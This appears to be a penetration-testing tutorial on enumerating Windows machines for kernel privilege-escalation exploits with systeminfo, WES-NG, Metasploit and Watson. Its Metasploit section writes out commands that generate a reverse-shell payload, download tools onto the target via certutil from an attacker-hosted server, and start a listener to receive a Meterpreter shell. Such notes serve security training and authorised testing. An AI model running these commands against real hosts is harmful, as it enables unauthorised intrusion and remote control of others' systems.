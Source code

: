 ### **MANUAL ENUMERATION**

1.  Use the systeminfo command to collect detailed information about the system, including the OS version, system architecture, and installed hotfixes (KBs).  
    `systeminfo`

    ![](../../../img/Windows-Environment/3.png)
    
    **NOTE:** In the provided output, we can identify the system as a Windows 7 Pro – Build 7601 – x64-based (64-bit). Additionally, it shows that three hotfixes have been installed on this host.
    
2.  To obtain more specific details about the installed hotfixes, use the following command:  
    `wmic qfe get Caption,Description,HotFixID,InstalledOn`  
    
    ![](../../../img/Windows-Environment/4.png)

    **NOTE:** Microsoft has shifted from using MS bulletin numbers (e.g., “MS17-010”) for their disclosed vulnerabilities. Starting in late 2017/early 2018, Microsoft now references vulnerabilities using the CVE (Common Vulnerabilities and Exposures) system. As a result, modern kernel exploits are labeled with CVE-20XX-XXXX identifiers.
    

### **ENUMERATING WITH WINDOWS EXPLOIT SUGGESTER**

1.  Run the `systeminfo` command on the target machine to gather system information. Copy the output and save it to a TXT file on the attacker machine.  
    
    ![](../../../img/Windows-Environment/5.png)
    
2.  Ensure you have the latest exploits by updating the WES-NG database:  
    `python3 wes.py --update`  
    
    ![](../../../img/Windows-Environment/6.png)
    
3.  Use WES-NG to analyze the gathered system information and identify potential kernel exploits:  
    `python3 wes.py systeminfo.txt -i 'Elevation of Privilege' --exploits-only`  
    
    ![](../../../img/Windows-Environment/7.png)
    

### **ENUMERATING WITH METASPLOIT**

1.  Generate a reverse TCP Meterpreter payload based on the target's architecture (either x86 or x64) and save it as an executable file  
    `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[IP-ADRESS] LPORT=1337 -f exe > shell-x64.exe`  
    
    ![](../../../img/Windows-Environment/8.png)

    **NOTE:** The built-in Local Exploit Suggester module in Metasploit can be used to identify potential kernel exploits.
    
2.  Host the payload binary using Pythong HTTP server and transfer it to the target Machine with certutil.  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/accesschk64.exe accesschk64.exe`  
    
    ![](../../../img/Windows-Environment/9.png)
    
3.  On the attacker machine, start a multi-handler listener in Metasploit with the following command:  
    `msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 1337; run"`  
    
    ![](../../../img/Windows-Environment/10.png)
    
4.  By executing the reverse shell binary, our multi-handler listener should receive a meterpreter shell connection.  
    `.\shell-x64.exe`  
    
    ![](../../../img/Windows-Environment/11.png)
    
5.  Use the following commands in Metasploit to load the Local Exploit Suggester:
    
    ```
    background
    search suggester
    use 0
    set SESSION 1
    exploit
    ```
    
    ![](../../../img/Windows-Environment/12.png)
    
6.  After about 1 minute, Metasploit will provide a list of potential kernel exploits that can be used against the host.  
    ![](../../../img/Windows-Environment/13.png)
    

### **ENUMERATING WITH WATSON**

1.  Use one of the file transfer techniques from the File Transfer section to Transfer Watson to the target machine.  
    `certutil -urlcache -f http://[IP-ADRESS]:8000/Watson.exe Watson.exe`  
    
    ![](../../../img/Windows-Environment/14.png)

    **NOTE:** Watson supports various versions of Windows 10 (1507, 1511, 1607, 1703, 1709, 1803, 1809, 1903, 1909, 2004) and Windows Server (2016 & 2019).
    
2.  Once Watson is on the target machine, execute it and review the output  
    `.\Watson.exe`